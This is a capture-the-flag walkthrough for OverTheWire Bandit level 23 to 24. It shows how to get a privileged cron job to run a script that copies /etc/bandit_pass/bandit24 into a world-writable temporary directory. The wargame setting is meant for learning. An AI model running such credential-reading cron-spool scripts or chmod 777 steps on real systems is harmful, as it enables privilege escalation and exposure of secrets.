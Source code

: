 # Bandit23 -> 24 Challenge

**Username:**
<br>
<br>
**bandit23**
<br>
<br>
**Password:**
<br>
<br>
**XXXXXXXXXXXXXXXXXXXXXXXXXXXyR2G**
<br>
<br>

**Task:**
A program is running automatically at regular intervals from cron, the time-based job scheduler.
Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
<br>
<br>
**OverTheWire Levels**
<br>
[Overthewire.org](https://overthewire.org/wargames/bandit/bandit24.html)

**Solution**
<br>
Do a 'ls -la', and get to to (/etc/cron.d/).(Fyi, we are going to use 'cron' and 'nano')

**Step 1:**
<br>
ls -la /etc/cron.d/
<br>
('ls -la /etc/cron.d/' Shows whats inside the 'cron.d' directory)

**Step 2:**
<br>
cat /etc/cron.d/cronjob_bandit24
<br>
(Sends what 'cronjob_bandit24' has in it.)

**Step 3:**
<br>
cat /usr/bin/cronjob_bandit24.sh
<br>
(Sends what 'cronjob_bandit24.sh' has in it.)

**Step 4:**
<br>
mktemp -d
<br>
('mktemp -d' makes a Temporary Directory, example: '/tmp/tmp.DuzEylipfd')

**Step 5:**
<br>
cd /tmp/tmp."Temporary Directory"
<br>
("Temporary Directory" is from 'mktemp -d')

**Step 6:**
<br>
nano 'whatever name you want of the file'.sh
<br>
('nano' is  a  small  and friendly editor. 'whatever name you want of the file' means name it however you like with a '.sh' at the end.)

*Step 7:**
<br>
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp."Temporary Directory"/password.txt
<br>
(Do this after getting in to the 'nano' for the file, don't forget to save the 'nano' before exiting.)

**Step 8:**
<br>
chmod +x 'whatever name you want of the file'.sh
<br>
('chmod +x' gives permissions to files or directorys for everyone.)

**Step 9:**
<br>
chmod 777 .
<br>
('chmod 777' gives permissions to read, write and execute for everyone. If that doesn't work try 'chmod +w')

**Step 10:**
<br>
cp 'whatever name you want of the file'.sh /var/spool/bandit24/
<br>
('cp' copies 'whatever name you want of the file.sh' to '/var/spool/bandit24/' which was from Step 3.)
<br>
(Wait a minute or less to see a file called 'password.txt' from Step 7, if not then check the 'whatever name you want of the file'.sh for miss spelling.)

*Fast way to logging in:*
<br>
ssh bandit.labs.overthewire.org -p 2220 -l bandit (whatever lvl you are on)

**Script for lvl**
<br>
**To be continued**

